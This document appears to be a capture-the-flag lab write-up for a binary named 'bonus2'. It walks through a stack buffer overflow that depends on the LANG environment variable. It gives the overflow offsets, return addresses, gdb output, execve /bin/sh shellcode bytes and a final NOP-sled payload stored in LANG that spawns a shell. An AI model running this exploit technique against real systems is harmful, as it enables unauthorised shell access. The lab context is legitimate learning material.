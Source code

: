 bonus2:579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245

`LANG` env var change behavior of the binary

offset 23

LANG=nl
`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC BBBBBBBBBBBBBBBBBBBBBBBXXXX`
`XXXX` => the return address for the shellcode `0xbffff550` + 1 & `0xbffff550` + 5
shellcode => `\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\x89\xc2\x6a\x0b\x58\xcd\x80`

first argument => `python -c 'print "AXXXX\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\x89\xc2\x6a\x0b\x58\xcd\x80" + "B" * 9'`
second argument => `python -c 'print "A" * 23 + "\x54\xf5\xff\xbf"'`

`gdb --args ./bonus2 $(python -c 'print "AXXXX\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\x89\xc2\x6a\x0b\x58\xcd\x80" + "B" * 9') $(python -c 'print "A" * 23 + "XXXX"')`

Doesnt work because overwrite made for the return value of `greetuser` and the buffer we are using to store
the shellcode is deallocated
Lets try by storing it avec `nl` in the env

Find the address of the env var in gdb:
```shell
(gdb) b *main +130
Breakpoint 1 at 0x80485ab
(gdb) run a a
Starting program: /home/user/bonus2/bonus2 a a

Breakpoint 1, 0x080485ab in main ()
(gdb) x $eax
0xbffffe7c:	0x90906c6e
```
address env => `0xbffffe7c` 

```shell
export LANG=nl$(echo -en "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\x89\xc2\x6a\x0b\x58\xcd\x80")

./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "A" * 23 + "\x9c\xfe\xff\xbf"')
```